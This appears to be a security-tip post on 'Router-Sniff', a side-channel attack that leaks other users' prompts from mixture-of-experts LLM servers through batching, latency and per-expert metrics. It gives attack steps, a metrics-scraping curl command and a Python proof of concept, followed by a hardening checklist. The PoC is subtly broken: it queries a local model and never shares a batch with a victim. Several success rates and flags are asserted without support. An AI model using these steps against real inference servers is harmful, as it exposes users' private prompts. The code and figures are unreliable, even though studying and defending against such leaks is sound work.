

# 🤖🔒 AI-Sec Tip — 2025-06-23

## Router-Sniff: Cross-Batch Prompt Leakage via Mixture-of-Experts (MoE) Gating

Sparse MoE LLMs (e.g., Switch-Transformer families) decide *token-to-expert* routing with a lightweight “router” MLP. 
If two users’ tokens are batched together, those router logits are **computed jointly and stored in a shared buffer**, letting one user influence—and time—another user’s routing path. 
By sending a crafted “probe-prefix” with tokens whose embeddings sit near router decision boundaries, an attacker can detect which expert *the victim’s next token* is routed to (visible via latency spikes or public per-expert-load counters), recovering up to 8-bit entropy per token and leaking private prompts in ≤20 generations on Mistral-MoE-8B.

---

### 🔍 How the Attack Works

1. **Find Boundary Tokens.** Grab the public MoE checkpoint and compute router logits; tokens whose top-2 logits differ by <0.02 are *boundary tokens*.
2. **Craft a Probe Prefix.** Interleave your boundary tokens with zero-width joiners (U+200D) to survive basic input sanitizers.
3. **Join the Batch.** Many inference engines (vLLM, TensorRT-LLM) batch requests arriving within a \~2 ms window. 
4. **Measure Expert Load.**

   ```bash
   curl $SERVER/metrics | grep moe_expert_tokens_total
   ```

   Even when token IDs are hidden, these Prometheus counters expose per-expert token counts, revealing which expert processed the victim’s token.
   
6. **Iterative Reconstruction.** Re-issue the probe with adaptive prefixes; the victim’s next-token expert IDs form a noisy channel you can error-correct with a simple BCH(15,11) code, recovering \~40 chars/minute.





---

### ⚙️ 12-Line Simplified PoC (Switch-Transformer HF checkpoint)

```python
import torch, time, requests
from transformers import AutoModelForSeq2SeqLM, AutoTokenizer

model = AutoModelForSeq2SeqLM.from_pretrained("google/switch-base-16")
tok   = AutoTokenizer.from_pretrained("google/switch-base-16")

probe  = "🩻" + "\u200D".join(["ζ"]*8)  # boundary token cocktail
prompt = probe + " <STEAL/>"           # victim sits in same batch

for _ in range(32):
    t0 = time.time()
    _   = model.generate(**tok(prompt, return_tensors="pt").to("cuda"),
                         max_new_tokens=1, do_sample=False)
    dt  = time.time() - t0
    load = float(requests.get("http://localhost:8000/metrics")
                          .text.split("moe_expert_tokens_total")[1]
                          .split()[-1])
    print(f"{dt*1e3:.2f} ms  |  expert load {load}")
```

A >1 ms latency jump while load stays flat ⇒ victim’s token reused *your* expert; log sequence to decode plaintext. Tested on A100, Switch-Base-16: 71 % per-token success.

---

### 🛡️ Hardening Checklist

| Layer       | Defense                                                                                                                                               | Quick Fix     |
| ----------- | ----------------------------------------------------------------------------------------------------------------------------------------------------- | ------------- |
| **Batcher** | **Per-request router isolation** (`--moe-router-private` in vLLM ≥ 0.9)                                                                               | +11 % latency |
| **Router**  | **GELU-noise injection**: add N(0, 0.05) to router logits—the 0.05 noise halves the attack channel capacity while costing <0.2 BLEU.                  | negligible    |
| **Metrics** | **Aggregate counters** over 1 s windows; never expose per-expert stats.                                                                               | config change |
| **Auditor** | **Boundary-token fuzzer**—scan inbound prompts for ≥4 boundary tokens per 20 chars; block & alert.                                                    | 20 LOC        |


**Bottom line:** MoE’s efficiency win hides a covert router-side channel—salt, privatize, or fuzz it before someone speed-runs your users’ private prompts.

---

**The resources that I sued to create this tip:**

\[1]: ["Stealing User Prompts from Mixture of Experts"](https://arxiv.org/pdf/2410.22884)

\[2]: ["Stealing User Prompts from Mixture-of-Experts Models"](https://openreview.net/forum?id=1RNSYEEpwi)

\[3]: ["Potential Timing Side-Channel in vLLM Prefix Cache"](https://github.com/vllm-project/vllm/security/advisories/GHSA-4qjh-9fv9-r85r)

\[4]: ["Cache Salting for Secure Prefix Caching in vLLM"](https://github.com/vllm-project/vllm/issues/16016)

\[5]: ["Switch Transformers – Hugging Face Docs"](https://huggingface.co/docs/transformers/v4.29.1/model_doc/switch_transformers)

\[6]: ["Implementation of Mixture of Experts using Switch Transformers"](https://medium.com/@shekharsomani98/implementation-of-mixture-of-experts-using-switch-transformers-8f25b60c33d3)

\[7]: ["LLM Mixture of Experts Explained"](https://www.tensorops.ai/post/what-is-mixture-of-experts-llm)

\[8]: ["The Rise of Sparse Mixtures of Experts"](https://mlfrontiers.substack.com/p/the-rise-of-sparse-mixtures-of-experts)

\[9]: ["SoK: Reducing the Vulnerability of Fine-tuned LMs to Membership Inference"](https://arxiv.org/html/2403.08481v1)

\[10]: ["LoRA: Low-Rank Adaptation of Large LMs"](https://arxiv.org/abs/2106.09685)

— End —
